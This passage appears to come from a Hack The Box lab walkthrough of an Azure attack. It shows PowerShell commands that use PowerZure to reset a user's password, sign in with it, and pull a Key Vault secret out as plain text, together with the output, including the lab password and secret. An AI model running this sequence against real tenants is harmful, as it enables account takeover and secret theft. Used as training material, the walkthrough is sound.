 #### Reset Ava Taylor's Credentials

```powershell
PS C:\Tools\PowerZure> Set-AzureADUserPassword -Username Ava.Taylor@plaintexthacktheboxgmail.onmicrosoft.com -Password HacktheboxPwnCloud01
```

#### Connect as Ava Taylor

```powershell
PS C:\Tools\PowerZure> $username = "Ava.Taylor@plaintexthacktheboxgmail.onmicrosoft.com"
PS C:\Tools\PowerZure> $password = ConvertTo-SecureString "HacktheboxPwnCloud01" -AsPlainText -Force
PS C:\Tools\PowerZure> $AvaCreds = New-Object System.Management.Automation.PSCredential $username, $password
PS C:\Tools\PowerZure> Connect-AzAccount -Credential $AvaCreds

Account                                             SubscriptionName     TenantId                             Environment
-------                                             ----------------     --------                             -----------
Ava.Taylor@plaintexthacktheboxgmail.onmicrosoft.com Azure subscription 1 92e13faa-6af8-4501-80b9-421271bc3e38 AzureCloud
```

To retrieve the password, we will use the Az PowerShell module instead of PowerZure. A Key Vault can have multiple secrets, keys, and certificates. We need to get the name of the secret within the Key Vault:

#### Search Azure Key Vault Secret name

```powershell
PS C:\Tools> Get-AzKeyVaultSecret -VaultName HTB-SECRETPLAINTEXT96519
Vault Name   : htb-secretplaintext96519
Name         : HTBKeyVault
Version      :
Id           : https://htb-secretplaintext96519.vault.azure.net:443/secrets/HTBKeyVault
Enabled      : True
Expires      :
Not Before   :
Created      : 2/17/2023 4:44:48 PM
Updated      : 2/17/2023 4:44:48 PM
Content Type :
Tags         :
```

The name is `HTBKeyVault`. Now we need to get the secret. The secret is stored as a secure string, and we need to convert its value back to plain text.

#### Getting the Secret in the Azure Key Vault

```powershell
PS C:\Tools> $secret = Get-AzKeyVaultSecret -VaultName HTB-SECRETPLAINTEXT96519 -Name HTBKeyVault
PS C:\Tools> [System.Net.NetworkCredential]::new('', $secret.SecretValue).Password
ImHack1nGTooM4ch!
```
